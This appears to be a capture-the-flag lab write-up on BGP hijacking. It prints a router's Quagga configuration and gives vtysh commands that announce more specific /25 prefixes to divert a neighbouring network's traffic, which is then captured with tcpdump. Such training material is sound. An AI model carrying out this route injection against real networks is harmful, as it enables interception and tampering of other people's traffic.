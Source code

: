 ### What Is BGP Hijacking?

BGP hijacking occurs when an AS announces IP address spaces belonging to another AS. This announcement attracts traffic meant for that IP address range.

Other common names for BGP hijacking are:

- **Prefix** hijacking.
- **Route** hijacking.
- **IP** hijacking.

BGP hijacking occurs when someone or something corrupts the routing tables maintained by AS routers. This corruption enables a backbone router to improperly advertise as having the most efficient route to a network.

Since BGP always favors the shortest path to the desired IP address, anyone looking to cause a BGP hijack must create a route announcement that either:

- Provides a more specific route with a smaller range of IP addresses than other ASes.
- Offers a shorter route to certain blocks of IP addresses.

Both strategies require the hacker to either control an AS router or compromise one of approx. 80,000 currently operational ASes. This process is easier said than done, which is why most malicious BGP hijacks are the work of highly skilled and well-funded hacker groups.

BGP hijacking enables attackers to reroute Internet traffic to the wrong destination or route. Rerouting traffic enables a threat actor to intercept, spy on, or tamper with transmitted data.

![How BGP hijacks work](https://phoenixnap.com/blog/wp-content/uploads/2023/11/how-bgp-hijacks-work.jpg)

The easiest way to understand BGP hijacking is to compare it to someone secretly changing all the signs on a stretch of freeway and rerouting traffic onto incorrect exits.

![[Pasted image 20240417143321.png]]

### Quagga

You saw “quagga” mentioned in the Router exploration section , but what is quagga ?  
Basically quagga is a routing software and since quagga is installed on this host then most likely we are going to perform bgp-hijacking or route-hijacking.

You can see there are two configuration files:

#### /etc/quagga/bgpd.conf

```
!
hostname router1
password a0ceca89b47161dd49e4f6b1073fc579
log stdout
!
debug bgp updates
!
router bgp 60001
 bgp log-neighbor-changes
 bgp router-id 1.1.1.1
 network 172.16.1.0/24
 
 neighbor 172.16.12.102 remote-as 60002
 neighbor 172.16.12.102 weight 100
 neighbor 172.16.12.102 soft-reconfiguration inbound
 neighbor 172.16.12.102 prefix-list LocalNet in
 
 neighbor 172.16.31.103 remote-as 60003
 neighbor 172.16.31.103 weight 100
 neighbor 172.16.31.103 soft-reconfiguration inbound
 neighbor 172.16.31.103 prefix-list LocalNet in
!
# Deny any changes to routing to the local network
ip prefix-list LocalNet seq 5 deny 172.16.1.0/24 le 32
ip prefix-list LocalNet seq 10 permit 0.0.0.0/0 le 32
!
line vty
!
end
#

```

This router is AS 60001
There are another 2 AS:

60002 and 60003

### Configuration with VTYSH

VTYSH provides a unified command-line interface for managing multiple network services and protocols, such as routing protocols (e.g., BGP, OSPF) and network configuration settings.

When you enter the "vtysh" command, you're essentially accessing a shell environment where you can interact with the networking device and configure various aspects of its operation, such as routing tables, network interfaces, and protocol settings.

Run:

```
$ vtysh
```

router1.ctx.ctf# $ 

 Once into vtysh run the following to see the neighbors:

```
 $ show bgp neighbors

```

> BGP neighbor is 172.16.12.102, remote AS 60002, local AS 60001, external link
> ...
> BGP neighbor is 172.16.31.103, remote AS 60003, local AS 60001, external link
> ...


#### Routing tables

Run:

```
 $ show ip bgp neighbors 172.16.12.102 advertised-routes
```

> ![[bgp.png]]

You can see there are two networks 172.16.1.0/24 and 172.16.3.0/24, so if you get connected to the 172.16.2.0/24 you'd intercept all traffic.

Run the following commands:

```
$ configure terminal
router1.ctx.ctf(config)# $ router bgp 60001
router1.ctx.ctf(config-router)# $ network 172.16.2.0/25
router1.ctx.ctf(config-router)# $ network 172.16.3.0/25

```

Exit the terminal with the two `exit` commands.

See how the configuration has changed:

```
router1.ctx.ctf# $ show ip bgp neighbors 172.16.12.102 advertised-routes
```

![[bgp1.png]]

You can see there's a new AS 60003. 

> [!NOTE] Address 172.16.2.0/25
>   
The network address "172.16.2.0/25" represents a subnet with the following characteristics:

> - Network Address: 172.16.2.0
> - Subnet Mask: 255.255.255.128 (/25 in CIDR notation)
> - Usable IP Range: 172.16.2.1 to 172.16.2.126
> - Broadcast Address: 172.16.2.127
> 
> In CIDR notation (/25), the subnet mask has 25 leading bits set to 1, indicating the network portion of the address, and the remaining 7 bits set to 0, allowing for 128 possible host addresses in the subnet.
> 
> This subnet falls within the private IP address range defined by RFC 1918, commonly used in local area networks (LANs) for internal communication.



![[Diagram1.svg]]


### Capturing packets with tcpdump


You're telling `tcpdump` to capture packets on the `eth0` interface and print each packet's content in ASCII format, including both the packet header and payload.

- The `-i` option, it specifies the network interface to capture packets from. In your command, `eth0` is the network interface specified.

- The `-A` option tells `tcpdump` to print each packet in ASCII format, displaying both the packet's header and its payload as ASCII characters.

#### Run tcdump on the vsFTPd 2.3.4 Exploitation shell

```
$ tcpdump -i eth0 -A

```


**Next step:** [[TCP flag]]

